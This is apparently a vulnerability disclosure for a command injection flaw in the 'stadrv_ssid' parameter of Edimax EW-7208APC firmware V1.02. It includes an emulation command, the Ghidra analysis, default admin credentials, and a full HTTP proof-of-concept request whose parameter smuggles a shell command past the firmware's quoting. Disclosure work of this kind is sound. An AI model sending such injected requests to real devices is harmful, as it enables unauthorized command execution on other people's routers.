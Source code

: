 ## **Description**

A command injection vulnerability was discovered in the Edimax EW-7208APC firmware version ​**V1.02**. The vulnerability arises from the improper input validation of the `'stadrv_ssid'` parameter in the 'formStadrvSetup' interface of the file webs.

## ​**Affected Product**

- ​**Brand**: EDIMAX
- ​**Product**: EW-7208APC
- ​**Version**: V1.02

The firmware can be downloaded from the official website.  
The vulnerability was confirmed using ​**FirmAE** for firmware emulation:

```sh
sudo ./run.sh -d Edimax ../FIRMWARE/EW-7208APC_v1.02.bin
```

**Default credentials**:

- ​**Username**: `admin`
- ​**Password**: `1234`

The result of the simulation is as follows: 
![sim_res](./img/sim_res.png)
## ​**Vulnerability Analysis**

### ​**Key Vulnerable Code**

Using ghidra we known that the vulnerability code in function 'formStadrvSetup' is below:
![vulner_code.png](./img/vulner_code1.png)
![vulner_code.png](./img/vulner_code2.png)
![vulner_code.png](./img/vulner_code3.png)
- ​**websGetVar** retrieves POST parameters 'stadrv_ssid'.
- **wlgetHiddenSSIDinfo()** use the param_1 for system without check, we can construct a string that bypasses double quotes, resulting a command injection in this place.

## **Proof of Concept (PoC)**

### ​**Exploit Request**
We use burpsuite to capture a normal POST packet for test.
Example package
```http
POST /goform/formStaDrvSetup HTTP/1.1
Host: 192.168.2.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: http://192.168.2.1
Authorization: Basic YWRtaW46MTIzNA==
Connection: close
Referer: http://192.168.2.1/adv_wireless.asp
Upgrade-Insecure-Requests: 1

stadrv_band=1&stadrv_type=1&stadrv_chan=19&stadrv_ssid=%22%3Becho+SSID>/poc.txt%3B%22
```

After the request we can see the file 'poc.txt' been created in the root directory.
![result](./img/result.png)